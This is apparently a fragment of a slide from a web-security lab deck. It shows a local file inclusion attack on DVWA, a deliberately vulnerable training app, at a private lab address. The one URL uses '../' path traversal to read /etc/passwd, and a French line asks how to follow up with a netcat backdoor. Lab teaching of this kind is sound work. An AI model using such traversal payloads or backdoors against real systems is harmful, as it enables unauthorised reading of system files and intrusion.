

# LOCAL FILE INCLUSION
http://192.168.80.134/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd

Comment faire avec nc backdoor????